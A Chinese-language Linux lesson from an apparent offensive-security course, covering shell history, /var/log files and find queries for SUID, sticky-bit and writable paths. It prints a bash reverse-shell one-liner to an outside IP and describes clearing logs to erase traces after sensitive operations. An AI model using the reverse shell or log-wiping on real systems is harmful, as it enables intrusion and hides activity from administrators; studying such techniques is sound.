# 网络安全系统教程：P53：40.文件系统信息

## 概述
在本节课中，我们将学习Linux系统中与文件系统相关的关键信息，包括用户命令历史记录的存储位置、系统日志文件的作用与位置，以及如何使用`find`命令查找具有特定属性的文件或目录。这些知识对于理解系统操作痕迹、进行日志分析和安全审计至关重要。



## 命令历史记录
上一节我们介绍了系统的基本信息，本节中我们来看看用户的操作记录是如何被系统保存的。

在Linux系统中，用户输入命令的历史记录会被保存下来。通过输入`history`命令，可以查看当前用户执行过的命令列表。

这个历史记录实际上存储在一个文件中。对于当前用户（例如`root`用户），该文件路径为`~/.bash_history`。

这个文件专门用于存放用户输入命令的历史记录。如果发现最新的命令没有立即出现在文件中，这是因为系统有一个写入机制，可能基于时间或退出会话时才批量写入。我们也可以手动更新它。





执行以下命令可以强制将当前内存中的历史记录写入文件：
```bash
history -a
```
执行后，文件内容将与直接输入`history`命令显示的内容保持一致。



## 系统日志文件
了解了个人操作记录后，我们再来看看系统整体的活动日志。

`/var/log`目录是系统日志文件的核心存放位置，在进行日志审查时经常需要访问此目录。该目录下存放着系统和各种服务运行过程中产生的日志。



例如，`/var/log`目录下可能包含以下日志文件：
*   `nginx/`：Web服务器Nginx的日志目录。
    *   `access.log`：记录所有成功访问Nginx服务的请求信息，例如访问了哪个目录或文件。
    *   `error.log`：记录访问Nginx服务时出现的错误日志。
*   `apt/`：包管理器APT的日志，记录了软件安装、更新等操作的历史，例如安装`gcc`编译器及其依赖包的时间和信息。





这些日志文件在后续学习“痕迹清除”时非常重要。因为我们在Linux系统上执行的命令、登录等操作都会被记录在相应的日志文件中。系统管理员可以通过查看这些日志来了解发生过哪些操作。因此，在进行某些敏感操作后，可能需要定位并清理这些日志文件，以消除操作痕迹。





## Find命令基础应用
接下来，我们将学习如何使用`find`命令来查找系统中的特定文件。`find`是一个功能强大的搜索工具。

这里先介绍其基本用法，一些涉及特殊符号（如`&`， `>`， `0`， `1`， `2`）的复杂用法，将在后面讲解Linux反弹Shell时详细说明。例如，常见的反弹Shell命令：
```bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```
该命令为何能向指定IP和端口反弹一个Shell，就涉及到这些符号和文件描述符（0，1，2）的含义。目前只需了解`find`的基本用法即可。

以下是`find`命令的一个典型示例，用于查找具有特殊权限的文件：
```bash
find / -perm -1000 -type d 2>/dev/null
```

对该命令的分解说明如下：
*   `find /`：从根目录`/`开始查找，即搜索整个文件系统。
*   `-perm -1000`：查找权限中包含“粘滞位”（Sticky Bit）的文件。粘滞位是一种特殊权限，常用于像`/tmp`这样的公共目录，确保用户只能删除自己的文件。其数字表示为`1000`。
*   `-type d`：指定查找类型为目录（Directory）。如果使用`-type f`则查找文件。
*   `2>/dev/null`：将命令执行过程中的错误信息（标准错误流，文件描述符2）重定向到空设备`/dev/null`，从而屏蔽所有错误提示，使输出更清晰。

此外，`find`命令还可以查找其他特殊权限：
*   `-gid s`：查找设置了`SGID`（Set Group ID）权限的文件。
*   `-uid s`：查找设置了`SUID`（Set User ID）权限的文件。
`SUID`和`SGID`也是重要的特殊权限，常被用于权限提升（提权），后续课程会详细讲解。





`find`命令也能用于查找具有特定读写执行权限的文件或目录：
```bash
find / -type d -writable 2>/dev/null
```



以下是更多查找条件的示例：
*   `-readable`：查找当前用户可读的文件。
*   `-writable`：查找当前用户可写的文件。
*   `-executable`：查找当前用户可执行的文件。
*   `-perm -222`：查找权限中包含“可写”（`w`）位的文件或目录（因为`w`权限对应的数字是2）。
*   `-perm -u+w`：查找文件所有者（User）拥有写权限的文件。
*   `-perm -g+w`：查找文件所属组（Group）拥有写权限的文件。
*   `-perm -o+w`：查找其他用户（Others）拥有写权限的文件。

原理是相通的，`-perm`参数后接权限数字或符号，`-type`指定类型是文件(`f`)还是目录(`d`)。更复杂的条件可以通过`-a`（and， 与）连接多个条件来实现同时满足。

关于`find`命令更多、更详细的用法，建议随时查阅其帮助信息：
```bash
man find
```
或
```bash
find --help
```



## 总结
本节课中我们一起学习了Linux文件系统的关键信息点。我们了解了用户命令历史记录存储在`~/.bash_history`文件中，系统及服务日志集中存放在`/var/log`目录下，并认识了`access.log`， `error.log`等常见日志。最后，我们初步掌握了使用`find`命令根据权限、类型等属性查找文件的基本方法，为后续的日志分析、痕迹管理和安全排查打下了基础。